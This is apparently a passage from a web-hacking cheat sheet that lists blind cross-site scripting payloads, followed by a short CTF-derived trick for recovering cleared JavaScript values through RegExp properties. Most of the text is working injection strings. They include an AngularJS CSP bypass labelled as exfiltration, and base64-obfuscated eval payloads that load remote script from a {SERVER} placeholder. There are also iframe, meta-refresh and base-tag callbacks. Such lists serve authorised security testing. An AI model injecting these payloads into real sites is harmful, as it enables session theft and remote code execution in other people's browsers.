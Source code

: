 ```html
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>

<!-- Payloads from https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide -->
<!-- Image tag -->
'"><img src="x" onerror="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

<!-- Input tag with autofocus -->
'"><input autofocus onfocus="eval(atob(this.id))" id="Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==">

<!-- In case jQuery is loaded, we can make use of the getScript method -->
'"><script>$.getScript("{SERVER}/script.js")</script>

<!-- Make use of the JavaScript protocol (applicable in cases where your input lands into the "href" attribute or a specific DOM sink) -->
javascript:eval(atob("Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=="))

<!-- Render an iframe to validate your injection point and receive a callback -->
'"><iframe src="{SERVER}"></iframe>

<!-- Bypass certain Content Security Policy (CSP) restrictions with a base tag -->
<base href="{SERVER}" />

<!-- Make use of the meta-tag to initiate a redirect -->
<meta http-equiv="refresh" content="0; url={SERVER}" />

<!-- In case your target makes use of AngularJS -->
{{constructor.constructor("import('{SERVER}/script.js')")()}}
```

### Regex - Access Hidden Content

From [**this writeup**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) it's possible to learn that even if some values disappear from JS, it's still possible to find them in JS attributes in different objects. For example, an input of a REGEX is still possible to find it after the value of the input of the regex was removed:

```javascript
// Do regex with flag
flag = "CTF{FLAG}"
re = /./g
re.test(flag)

// Remove flag value, nobody will be able to get it, right?
flag = ""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(
  document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"]
)
```
